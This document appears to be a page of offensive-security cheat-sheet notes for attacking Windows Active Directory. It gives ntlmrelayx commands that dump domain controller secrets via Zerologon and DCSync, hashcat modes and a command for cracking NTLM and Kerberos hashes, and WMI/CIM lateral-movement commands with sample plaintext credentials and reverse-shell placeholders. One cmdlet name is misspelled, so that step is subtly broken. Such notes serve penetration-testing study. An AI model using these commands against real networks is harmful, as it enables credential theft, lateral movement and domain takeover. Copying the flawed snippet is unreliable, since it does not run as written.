 
### NTLMRelayx.py
```bash
# target vulnerable to Zerologon, dump DC's secrets only
ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER'

# target vulnerable to Zerologon, dump Domain's secrets
ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER' -auth-smb 'DOMAIN'/'LOW_PRIV_USER':'PASSWORD'
```

---

### Hashcat For Windows
| Hash Type                          | Hashcat Mode |
| ---------------------------------- | ------------ |
| LM Hash                            | 3000         |
| NT Hash                            | 1000         |
| NTLM Response                      | 5500         |
| NTLMv2 Response                    | 5600         |
| (DCC1) Domain Cached Creds         | 1100         |
| (DCC2) Domain Cached Creds 2       | 2100         |
| AS-REQ-roast                       | 7500         |
| AS-REP-roast                       | 18200        |
| Kerberoast                         | 13100        |
| PostgreSQL Hash (PBKDF2-HMAC-SHA1) | 12001        | 

```bash
hashcat -a 0 -m [mode] -r [rule_file] --force # use the --show flag to show passwords.
```

### WMI & WINRM
```PowerShell
# Performing a lateral movement through CMD
wmic /node:192.168.216.73 /user:jen /password:Nexus123! process call create 'calc' # enter the reverse shell script instead of calc

# Performing a lateral movement through PS
# First create a PS credential
$username = 'jen'; # user you want to go to.
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

# Next, setup a reverse shell
$options = New-CimSessionOption -Protocol DCOM
$session = New-CimSesstion -ComputerName 192.168.216.75 -Credential $credential -SessionOption $options
$command = 'put reverse shell here';

# Launch the reverse shell with the target user
Invoke-CimMethod -CimSession $session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine=$command};
```
